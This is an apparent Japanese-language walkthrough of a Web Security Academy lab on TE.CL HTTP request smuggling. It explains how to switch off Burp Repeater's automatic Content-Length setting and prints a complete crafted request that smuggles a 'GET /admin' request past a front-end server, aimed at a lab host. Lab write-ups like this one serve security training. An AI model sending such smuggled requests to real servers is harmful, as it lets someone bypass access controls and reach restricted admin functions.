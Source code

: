 `/adminへのアクセス時の挙動の確認`
![](./images/README_231016_122942.png)

まず最初に、`Burp > Settings > Repeater`でContent-Lengthの自動更新を切っておきましょう。

![](./images/README_231016_123044.png)

今回はTE.CLのラボ (Front-end: Transfer-Encodingをみる、Back-end: Content-Lengthをみる)なので、

```text
POST / HTTP/1.1
Host: 0a5a00ba043ae64080366298007b002e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
0


```